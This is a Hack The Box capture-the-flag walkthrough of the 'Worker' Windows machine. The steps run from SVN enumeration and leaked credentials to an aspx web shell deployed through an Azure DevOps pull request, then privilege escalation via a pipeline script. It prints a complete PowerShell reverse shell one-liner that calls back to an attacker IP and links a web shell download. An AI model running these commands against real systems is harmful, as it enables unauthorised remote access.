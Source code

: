 ```yaml
---
layout: post
title: Worker HTB Walkthrough
---
```

![](/images/2021-2-12-Worker/0.png)

Hello guys and girls, lets hacks!!

Today we are going to be hacking a windows machine from hack the box called worker.

Let’s kick it off with nmap:

```
Nmap scan report for worker.htb (10.10.10.203)                                                        
Host is up (0.039s latency).                                                                          
Not shown: 998 filtered ports                                                                         
PORT     STATE SERVICE  VERSION                                                                       
80/tcp   open  http     Microsoft IIS httpd 10.0                                                      
| http-methods:                                                                                       
|_  Potentially risky methods: TRACE                                                                  
|_http-server-header: Microsoft-IIS/10.0                                                             
|_http-title: IIS Windows Server                                                                      
3690/tcp open  svnserve Subversion                                                                    
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows                                             
                                                                                                     
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .        │
# Nmap done at Sat Oct 10 13:15:06 2020 -- 1 IP address (1 host up) scanned in 13.62 seconds

```

As you can see, port 80 and 3690 are open. 

Port 80 had nothing interesting, so I started looking at 3690 which runs SVN, SVN is like Githib, SVN is used to manage and track changes to code and assets across projects.

So, let’s see what is in there: 

![](/images/2021-2-12-Worker/1.png)

Okay we found a bunch of stuff, so I just exported all the directory on to my local machine and spend some time going through it to find something interesting!!

![](/images/2021-2-12-Worker/2.png)

Hm!! Looks like something interesting.

![](/images/2021-2-12-Worker/3.png)

Okay, so we need some credentials. Usually I will think of brute force but its NTLM auth so it won’t be easy, so let’s look for creds.


Finally found something interesting!! A username and password.

![](/images/2021-2-12-Worker/4.png)


Now we will try to authenticate with it

Wallah!!, we got in


![](/images/2021-2-12-Worker/5.png)

Initially I found an upload button, so I tried uploading a shell, but it didn’t work so I looked around and decided to create a branch and upload my shell

![](/images/2021-2-12-Worker/6.png)
Now I created a branch called workerhtb under spectral, and uploaded my aspx shell.

You can download the shell from here: [shell]( https://dl.packetstormsecurity.net/UNIX/penetration/aspxshell.aspx.txt)

![](/images/2021-2-12-Worker/7.png)
Now create a pull request to deploy the aspx shell and approve the pull to get the file added to the master branch

![](/images/2021-2-12-Worker/8.png)

![](/images/2021-2-12-Worker/9.png)

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.15.249',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
![](/images/2021-2-12-Worker/10.png)


![](/images/2021-2-12-Worker/11.png)
![](/images/2021-2-12-Worker/12.png)
![](/images/2021-2-12-Worker/13.png)

So, now that we have so many different users, I tried using one to log into the devops site.

![](/images/2021-2-12-Worker/14.png)

Oh, wait a minute. I can use evil-winrm to read the user.txt file.

Install evil-winrm :

gem install evil-winrm

then 

![](/images/2021-2-12-Worker/15.png)

Awesome !!


Now to privilege escalation…

As expected, “access denied”


![](/images/2021-2-12-Worker/16.png)

After spending some time in the box enumerating, I got nothing so, I decided to look at the devops site..


After spending a lot of time, I stumbled upon pipelines.

![](/images/2021-2-12-Worker/17.png)

So, I decided to create pipeline using azure..

I saw a field called “script” in the YAML deployment file , so immediately change the value into reading the root.txt. Technically, this should work !!

![](/images/2021-2-12-Worker/18.png)

However, for some reason it didn’t, so I tried to change the admin password  
![](/images/2021-2-12-Worker/19.png)
Yikess :/  I should start using strong passwords **silly me**
![](/images/2021-2-12-Worker/20.png)

I re-did the same thing, now with a stronger password:

W00t Wo0T




